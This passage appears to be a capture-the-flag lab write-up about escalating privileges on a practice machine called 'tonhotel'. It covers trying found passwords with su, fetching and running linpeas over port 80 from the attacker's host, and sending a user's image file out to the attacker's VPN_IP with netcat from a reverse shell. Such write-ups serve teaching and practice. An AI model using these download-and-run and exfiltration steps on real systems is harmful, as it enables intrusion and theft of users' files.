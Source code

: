 
That may be the password for `sandra`, let's try to switch:

```
sandra:ilovemydaughter
```

```
gilbert@tonhotel:/home$ su sandra
Password:
su: Authentication failure
```

No luck, let's keep on looking, we can get linpeas on the machine using a simple trick, since we know that we only can use ports `80` and `443`, we can do this:

```python
cp linpeas.sh index.html
sudo python3 -m http.server 80
wget http://IP/index.html
mv index.html linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Once we run linpeas, we can find a `/srv` directory which contains a `/srv/.dad` file:

```
gilbert@tonhotel:/tmp$ cat /srv/.dad
i cant deal with your attacks on my friends rn dad, i need to take some time away from the hotel. if you need access to the ton site, my pw is where id rather be: anywherebuthere. -S
```

This is the password for `Sandra:`

```
sandra:anywherebuthere
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702181202.png)

Let's run `linpeas` again, once we run it, we can find a `boss.jpg` file on the `Pictures` directory of our home:

```
sandra@tonhotel:/tmp$ ls -la /home/sandra/Pictures/
total 40
drwxrwx--- 2 sandra sandra  4096 Sep 10  2023 .
drwxr-xr-x 5 sandra sandra  4096 Jul  2 23:13 ..
-rw-rw---- 1 sandra sandra 32637 Sep  7  2023 boss.jpg
```

Let's get it on our machine, we can use netcat for it:

```
# On our machine

sudo nc -lvnp 80 > boss.jpg

# On reverse shell

nc VPN_IP 80 < /home/sandra/Pictures/boss.jpg 
```
